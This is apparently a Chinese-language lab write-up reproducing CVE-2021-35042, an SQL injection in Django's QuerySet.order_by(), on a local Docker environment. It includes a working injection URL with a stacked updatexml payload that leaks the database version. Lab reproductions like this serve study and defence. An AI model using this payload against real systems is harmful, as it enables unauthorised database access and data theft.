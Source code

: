 # Django QuerySet.order_by() SQL 注入漏洞

# CVE-2021-35042

## 漏洞描述

Django 在 2021 年 7 月 1 日发布了一个安全更新，修复了在 QuerySet 底下的 order_by 函数中存在的 SQL 注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控 order_by 传入的值，在预期列的位置注入 SQL 语句。

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

访问页面 `http://your-ip:8000/vuln/`，在 GET 参数中构造 `order=-id`，会得到根据 id 降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```

![image-20220222171428294](images/202202221714341.png)

再构造 GET 参数 `order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23` 提交，其中 `vuln_collection` 是 `vuln` 应用下的模型 `Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入 SQL 语句，利用堆叠注入获得信息：

![image-20220222171548110](images/202202221715188.png)
